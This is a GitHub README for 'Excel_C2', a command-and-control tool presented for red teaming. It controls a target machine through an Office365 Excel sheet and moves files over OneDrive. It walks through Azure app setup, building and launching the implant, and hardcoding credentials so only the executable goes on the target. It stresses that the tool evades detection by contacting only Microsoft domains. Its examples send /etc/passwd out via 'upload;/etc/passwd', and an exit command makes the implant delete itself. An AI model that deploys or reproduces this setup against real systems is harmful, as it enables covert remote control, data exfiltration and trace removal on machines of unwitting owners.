 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

# Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively. \
      ![App IDs](img/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    1.  Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field \
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1.  Login with the same account to [OneDrive](https://onedrive.live.com)
    1.  Click on the arrow next to the **New** button and select **Excel workbook** \
      ![New Workbook](img/new-excel.png)
    1.  You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman 
    > NOTE: you've already completed Step3 by following this README
    1.  Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that \
      ![Get My Files](img/get-my-files.png)
    1.  In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    1.  Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId` \
      ![Drive IDs](img/drive-ids.png)
 
1. **Build executable**
 
    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheedId> --verbos <true|false>
    ```
   
   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

## Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is 

 ```
upload;<remote path>
 ```
Example:
 ```
upload;/etc/passwd
 ```
> NOTE: DO **NOT** add spaces.

### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is

 ```
download;<OneDrive file name>;<remote path>
 ```
Example:
 ```
download;down.txt;/home/user/downloaded.txt
 ```
> NOTE: DO **NOT** add spaces.

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation: 
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow


# Demo


# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Inspired from: https://github.com/looCiprian/GC2-sheet


# Support the project

**Pull request** 

